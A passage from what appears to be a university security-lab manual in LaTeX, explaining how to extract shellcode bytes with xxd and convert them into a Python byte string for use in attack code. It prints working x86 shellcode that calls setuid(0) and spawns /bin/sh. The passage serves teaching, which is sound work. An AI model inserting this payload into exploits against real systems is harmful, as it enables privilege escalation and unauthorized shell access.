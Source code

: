 In the above printout, the highlighted numbers are machine code.
You can also use the \texttt{xxd} command to print out 
the content of the binary file, and you should be 
able to find out the shellcode's machine
code from the printout.

\begin{lstlisting}
$ xxd -p -c 20 mysh.o
7f454c4601010100000000000000000001000300
...
000000000000000000000000(*@\textbf{31db31c0b0d5cd80}@*)
(*@\textbf{31c050682f2f7368682f62696e89e3505389e131}@*)
(*@\textbf{d231c0b00bcd80}@*)00000000000000000000000000
...
\end{lstlisting}
 

\paragraph{Using the shellcode in attacking code.}
In actual attacks, we need to include the shellcode
in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but
converting the machine code printed above 
to the array assignment in Python and C programs
is quite tedious if done manually, especially if 
we need to perform this process many times in the lab. 
We wrote the following Python code to
help this process. Just copy whatever you
get from the \texttt{xxd} command (only the shellcode part)
and paste it to the following code, between the lines
marked by \texttt{"""}. The code can be downloaded from the 
lab's website.


\begin{lstlisting}[caption=\texttt{convert.py}] 
#!/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
\end{lstlisting}
 
The \texttt{convert.py} program will print out the 
following Python code that you can include 
in your attack code. It stores the shellcode in
a Python array. 
 
